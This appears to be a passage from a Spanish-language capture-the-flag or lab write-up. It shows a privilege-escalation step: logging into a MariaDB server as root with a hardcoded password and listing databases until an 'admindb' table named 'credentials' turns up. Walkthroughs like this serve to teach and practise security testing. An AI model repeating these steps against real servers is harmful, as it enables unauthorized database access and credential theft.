 ## Escalate user admin

### MySQL

```shell
mysql -h <IP> -u root -pr00tt00rDB --ssl=0
```

Info:

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 16
Server version: 10.5.19-MariaDB-0+deb11u2 Debian 11

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

Vamos a listar las `DDBBs` a ver que vemos:

```mysql
show databases;
```

Info:

```
+--------------------+
| Database           |
+--------------------+
| admindb            |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.019 sec)
```

Vamos a listar las tablas de la `DDBB` llamada `admindb` a ver que vemos.

```mysql
use admindb;
show tables;
```

Info:

```
+-------------------+
| Tables_in_admindb |
+-------------------+
| credentials       |
+-------------------+
1 row in set (0.002 sec)
```
